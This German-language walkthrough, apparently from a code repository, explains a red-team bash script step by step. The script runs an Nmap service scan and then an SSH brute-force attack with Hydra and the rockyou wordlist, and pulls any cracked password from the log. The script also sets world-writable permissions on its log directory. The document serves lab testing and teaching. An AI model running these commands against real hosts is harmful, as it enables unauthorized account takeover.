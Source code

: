 # Red-Team Attack Script - Erklärung

Dieses Bash-Skript simuliert einen Angriff auf einen SSH-Dienst. Es führt einen Portscan mit Nmap durch und versucht dann einen Brute-Force-Angriff mit Hydra. **Nur in Testumgebungen verwenden!**

---

## ⚙️ 1. Kopfzeile und Sicherheitseinstellungen

```bash
#!/bin/bash
set -euo pipefail
```

- `#!/bin/bash`: Ausführung mit der Bash-Shell.
- `set -euo pipefail`:
  - `-e`: Abbruch bei Fehler.
  - `-u`: Fehler bei undefinierten Variablen.
  - `-o pipefail`: Fehler in einer Pipe führt zum Skriptabbruch.

---

## 📁 2. Variablendefinition

```bash
LOG_DIR="/logs"
MAIN_LOG="$LOG_DIR/attack.log"
NMAP_LOG="$LOG_DIR/nmap.txt"
HYDRA_LOG="$LOG_DIR/hydra.txt"
TARGET_HOST="ssh-target"
WORDLIST="/usr/share/wordlists/rockyou.txt"
```

Definiert Speicherorte für Logs, Zielhost und Passwortliste.

---

## 📅 3. Log-Funktion

```bash
log() {
    local msg="$1"
    echo "[$(date '+%Y-%m-%d %H:%M:%S')] $msg" | tee -a "$MAIN_LOG"
}
```

Gibt Nachrichten mit Zeitstempel in die Konsole und in die Log-Datei aus.

---

## ✅ 4. Vorbereitungschecks

```bash
log "Starte Angriff auf Ziel: $TARGET_HOST"
mkdir -p "$LOG_DIR"
chmod 777 "$LOG_DIR"
```

Erstellt Log-Verzeichnis und setzt Berechtigungen.

```bash
for tool in nmap hydra; do
    if ! command -v "$tool" >/dev/null 2>&1; then
        log "Tool nicht gefunden: $tool"
        exit 1
    fi
done
```

Prüft, ob die Tools `nmap` und `hydra` vorhanden sind.

```bash
if [ ! -f "$WORDLIST" ]; then
    log "Wordlist nicht gefunden: $WORDLIST"
    exit 1
fi
```

Prüft, ob die Passwortliste existiert.

---

## 🔍 5. Portscan mit Nmap

```bash
nmap -sV -p 22,80,443 "$TARGET_HOST" -oN "$NMAP_LOG" >> "$MAIN_LOG" 2>&1
```

- Scannt Ports: 22 (SSH), 80 (HTTP), 443 (HTTPS)
- Erkennt Dienstversionen mit `-sV`
- Speichert Ergebnis in Log-Dateien

---

## 🔓 6. Brute-Force Angriff mit Hydra

```bash
hydra -l admin -P "$WORDLIST" -t 8 -vV -f -e nsr ssh://$TARGET_HOST:22 -o "$HYDRA_LOG"
```

- Brute-Force-Versuch auf SSH mit Benutzer `admin`
- `-t 8`: 8 gleichzeitige Verbindungen
- `-f`: Abbruch bei erstem Erfolg
- `-e nsr`: Testet auch leere Passwörter, Benutzername usw.

```bash
FOUND_PASS=$(grep -o "password: [a-zA-Z0-9]*" "$HYDRA_LOG" | tail -1 | cut -d' ' -f2)
```

Extrahiert gefundenes Passwort aus der Logdatei.

---

## 🏁 7. Abschlussmeldung

```bash
log "[+] Angriff abgeschlossen: $(date '+%Y-%m-%d %H:%M:%S')"
```

Gibt abschließende Erfolgsmeldung mit Zeitstempel aus.

---

## ⚠️ Hinweis zur Legalität

Dieses Skript darf **nur in einer kontrollierten Testumgebung** eingesetzt werden. Angriffe auf reale Systeme ohne ausdrückliche Zustimmung sind **strafbar**.

